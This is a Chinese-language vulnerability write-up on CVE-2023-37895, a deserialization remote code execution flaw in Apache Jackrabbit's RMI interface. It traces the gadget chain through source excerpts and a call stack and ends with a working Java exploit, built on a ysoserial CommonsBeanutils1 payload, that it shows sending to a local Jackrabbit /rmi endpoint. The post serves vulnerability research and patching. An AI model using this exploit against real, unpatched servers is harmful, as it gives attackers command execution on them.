







Apache Jackrabbit RMI 远程代码执行漏洞分析(CVE-2023-37895)

- - -

# Apache Jackrabbit RMI 远程代码执行漏洞分析(CVE-2023-37895)

## 简介

Apache Jackrabbit™ 内容存储库是完全符合 Java 技术 API 内容存储库（JCR，在 JSR 170 和 JSR 283 中指定）的实现。  
内容存储库是一个分层内容存储库，支持结构化和非结构化内容、全文搜索、版本管理、事务、观察等。

## 使用

要访问远程内容存储库，需要在应用程序中使用 jackrabbit-jcr-rmi 组件

```plain
<dependency>
  <groupId>javax.jcr</groupId>
  <artifactId>jcr</artifactId>
  <version>1.0</version>
</dependency>
<dependency>
  <groupId>org.apache.jackrabbit</groupId>
  <artifactId>jackrabbit-jcr-rmi</artifactId>
  <version>1.4</version>
</dependency>
```

使用 RMI registry访问版本库所需的代码是

```plain
import javax.jcr.Repository;
import org.apache.jackrabbit.rmi.repository.RMIRemoteRepository;

Repository repository =
    new RMIRemoteRepository("//localhost/jackrabbit.repository");
```

或者使用URLRemoteRepository

```plain
import javax.jcr.Repository;
import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;

Repository repository =
    new URLRemoteRepository("http://localhost:8090/jackrabbit_webapp_war_exploded/rmi");
```

## 漏洞详情

在Apache Jackrabbit webapp和standalone中使用了commons-beanutils组件，该组件包含一个可用于通过 RMI 远程执行代码的类。攻击者可利用该组件构造恶意的序列化对象，发送到服务端的RMI服务端口或者Web服务的/rmi路径，目标服务器对恶意对象反序列化导致RCE  
[https://nvd.nist.gov/vuln/detail/CVE-2023-37895](https://nvd.nist.gov/vuln/detail/CVE-2023-37895)

## 影响版本

1.0.0 <= apache:jackrabbit < 2.20.11  
2.21.0 <= apache:jackrabbit < 2.21.18

## 利用链

```plain
远程调用ServerRipository.login()方法
反序列化SimpleCredentials对象Attribute属性
HashMap.readObject()
CB链
```

## 漏洞环境及利用

下载Apache Jackrabbit 2.20.10，编译并使用Tomcat部署  
[https://github.com/apache/jackrabbit/releases/tag/jackrabbit-2.20.10](https://github.com/apache/jackrabbit/releases/tag/jackrabbit-2.20.10)  
客户端使用下面EXP，运行即可导致服务端RCE，弹出计算器

## 漏洞分析

在web.xml存在/rmi路由对应的Servlet

```plain
<servlet>
    <servlet-name>RMI</servlet-name>
    <servlet-class>org.apache.jackrabbit.servlet.remote.RemoteBindingServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>RMI</servlet-name>
    <url-pattern>/rmi</url-pattern>
</servlet-mapping>
```

根据对应的servelet-class，可以找到对应的类`org.apache.jackrabbit.servlet.remote.RemoteBindingServlet`，这个类继承HttpServlet，负责对相关请求的处理，其doGet方法如下：

```plain
protected void doGet(
        HttpServletRequest request, HttpServletResponse response)
        throws ServletException, IOException {
    response.setContentType("application/octet-stream");
    ObjectOutputStream output =
        new ObjectOutputStream(response.getOutputStream());
    // 调用 getRemoteRepository() 方法获取到的远程存储库对象进行序列化，并将序列化后的对象写入输出流
    // RemoteObject.toStub() 方法用于将远程对象转换为远程引用的 Stub 对象，以便进行传输
    output.writeObject(RemoteObject.toStub(getRemoteRepository()));
    output.flush();
}
```

这段代码的作用是将远程存储库对象进行序列化，并将序列化后的对象以二进制流的形式作为响应发送给客户端.

进入getRemoteRepository方法详细查看

```plain
protected RemoteRepository getRemoteRepository() throws ServletException {
    if (remote == null) {
        try {
            // 获取一个 RemoteAdapterFactory 对象
            // RemoteAdapterFactory 是一个工厂类，用于创建远程存储库的适配器
            RemoteAdapterFactory factory = getRemoteAdapterFactory();
            // 之后调用getRemoteRepository方法创建ServerRepository对象
            remote = factory.getRemoteRepository(new ServletRepository(this));
        } catch (RemoteException e) {
            throw new ServletException(
                    "Failed to create the remote repository reference", e);
        }
    }
    return remote;
}
```

进入ServerAdapterFactory的getRemoteRepository方法

```plain
public RemoteRepository getRemoteRepository(Repository repository)
        throws RemoteException {
    return new ServerRepository(repository, this);
}
```

返回remote  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140324-aca929fa-8cea-1.png)

在RemoteObject.toStub方法中将远程对象转换为远程引用的 Stub 对象

```plain
public static Remote toStub(Remote obj) throws NoSuchObjectException {
    if (obj instanceof RemoteStub ||
        (obj != null &&
            Proxy.isProxyClass(obj.getClass()) &&
            Proxy.getInvocationHandler(obj) instanceof
            RemoteObjectInvocationHandler))
    {
        return obj;
    } else {
        return sun.rmi.transport.ObjectTable.getStub(obj);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140344-b89114e4-8cea-1.png)  
最后使用writeObject将其传输给客户端

客户端拿到Repository对象后，调用其login方法

```plain
public Session login(Credentials credentials) throws RepositoryException {
    return this.login(credentials, (String)null);
}
```

进入重载方法

```plain
public Session login(Credentials credentials, String workspace) throws RepositoryException {
    return this.factory.getRepository().login(credentials, workspace);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140413-ca4c7340-8cea-1.png)  
通过getRepository获取的是ClientRepository对象，调用其login方法  
这段代码是一个 login() 方法的实现，用于通过提供的凭据和工作空间登录到远程存储库，并返回一个会话（Session）对象

```plain
public Session login(Credentials credentials, String workspace) throws RepositoryException {
    try {
        // 调用 remote 对象的 login() 方法来进行远程登录。
        // remote 是一个远程存储库对象（RemoteRepository），通过调用其 login() 方法，使用提供的凭据和工作空间进行登录操作。
        // 返回值是一个远程会话对象（RemoteSession）
        RemoteSession session = this.remote.login(credentials, workspace);
        // 创建一个本地会话对象
        return this.factory.getSession(this, session);
    } catch (RemoteException var4) {
        throw new RemoteRepositoryException(var4);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140432-d5429f90-8cea-1.png)

ServerRepository的login方法

```plain
public RemoteSession login(Credentials credentials, String workspace)
        throws RepositoryException, RemoteException {
    try {
        // 调用 repository 对象的 login() 方法来进行登录操作
        Session session = repository.login(credentials, workspace);
        return getFactory().getRemoteSession(session);
    } catch (RepositoryException ex) {
        throw getRepositoryException(ex);
    }
}
```

这里的关键点是credentials是通过客户端传递过来的，而Credentials接口继承了Serializable接口

```plain
package javax.jcr;

import java.io.Serializable;

public interface Credentials extends Serializable {
}
```

因此可以构造特殊的Credentials对象，从而在该对象反序列化过程中执行任意代码  
这里可以找到一个Credentials子类SimpleCredentials，它继承了Credentials，与此同时，它的attributes属性是一个HashMap对象

```plain
public final class SimpleCredentials implements Credentials {
    private final String userID;
    private final char[] password;
    private final HashMap attributes = new HashMap();

    public SimpleCredentials(String userID, char[] password) {
        this.userID = userID;
        this.password = (char[])((char[])password.clone());
    }
    // ....
}
```

存在一个公有方法设置attributes属性

```plain
public void setAttribute(String name, Object value) {
    if (name == null) {
        throw new IllegalArgumentException("name cannot be null");
    } else if (value == null) {
        this.removeAttribute(name);
    } else {
        synchronized(this.attributes) {
            this.attributes.put(name, value);
        }
    }
}
```

这里的value设置成恶意的对象，能够在反序列化的过程中触发RCE，具体设置成什么，则需要在Apache Jackrabbit寻找其他可利用的链

在整个项目web模块的maven配置文件中添加了如下依赖：

```plain
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
</dependency>
```

所以这里可以尝试使用CB链来构造恶意对象

接下来的过程就是调用远程ServerRepository的login方法，其参数是构造的恶意SimpleCredentials，其过程是服务端开启了一个RMI服务，客户端调用该服务并发送恶意对象，服务端反序列化恶意对象，触发RCE  
具体可参考[https://xz.aliyun.com/t/12780#toc-7](https://xz.aliyun.com/t/12780#toc-7)

服务端对客户端传递的数据经过解包、反序列化后导致命令执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140451-e0d5a604-8cea-1.png)

来到unmarshalValue，它用于从 ObjectInput 流中反序列化一个对象

```plain
protected static Object unmarshalValue(Class<?> var0, ObjectInput var1) throws IOException, ClassNotFoundException {
    if (var0.isPrimitive()) {
        if (var0 == Integer.TYPE) {
            return var1.readInt();
        } else if (var0 == Boolean.TYPE) {
            return var1.readBoolean();
        } else if (var0 == Byte.TYPE) {
            return var1.readByte();
        } else if (var0 == Character.TYPE) {
            return var1.readChar();
        } else if (var0 == Short.TYPE) {
            return var1.readShort();
        } else if (var0 == Long.TYPE) {
            return var1.readLong();
        } else if (var0 == Float.TYPE) {
            return var1.readFloat();
        } else if (var0 == Double.TYPE) {
            return var1.readDouble();
        } else {
            throw new Error("Unrecognized primitive type: " + var0);
        }
    } else {
        // 这里
        return var1.readObject();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140509-eb72baf2-8cea-1.png)

接下来的过程就是对SimpleCredentials进行反序列化及CB链的过程，不详细展开。

## 函数调用栈

来自于服务端：

```plain
exec:347, Runtime (java.lang)
<clinit>:-1, Pwner530015546783700 (ysoserial)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeMethod:2128, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1279, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:809, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:885, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:721, PriorityQueue (java.util)
siftDown:687, PriorityQueue (java.util)
heapify:736, PriorityQueue (java.util)
readObject:795, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unmarshalValue:326, UnicastRef (sun.rmi.server)
dispatch:308, UnicastServerRef (sun.rmi.server)
run:200, Transport$1 (sun.rmi.transport)
run:197, Transport$1 (sun.rmi.transport)
doPrivileged:-1, AccessController (java.security)
serviceCall:196, Transport (sun.rmi.transport)
handleMessages:568, TCPTransport (sun.rmi.transport.tcp)
run0:826, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
lambda$run$256:683, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
run:-1, 565051120 (sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$23)
doPrivileged:-1, AccessController (java.security)
run:682, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```

## EXP

```plain
package org.example;

import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;
import ysoserial.payloads.ObjectPayload;

import javax.jcr.SimpleCredentials;


public class App
{
    public static void main( String[] args ) throws Exception {
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutils1");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("calc");

        SimpleCredentials simpleCredentials = new SimpleCredentials("admin", "admin".toCharArray());
        simpleCredentials.setAttribute("admin", object);

        URLRemoteRepository repository = new URLRemoteRepository("http://localhost:8090/jackrabbit_webapp_war_exploded/rmi");
        repository.login(simpleCredentials);
    }
}
```

## 漏洞修复

在版本2.20.10和2.20.11的对比中，maven配置中删除了commons-beanutils依赖  
[https://github.com/apache/jackrabbit/compare/jackrabbit-2.20.10...jackrabbit-2.20.11](https://github.com/apache/jackrabbit/compare/jackrabbit-2.20.10...jackrabbit-2.20.11)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140816-5abae68c-8ceb-1.png)

## 参考

[https://github.com/apache/jackrabbit](https://github.com/apache/jackrabbit)

[https://nvd.nist.gov/vuln/detail/CVE-2023-37895](https://nvd.nist.gov/vuln/detail/CVE-2023-37895)

[https://jackrabbit.apache.org/jcr/index.html](https://jackrabbit.apache.org/jcr/index.html)

**本文仅供参考学习！**
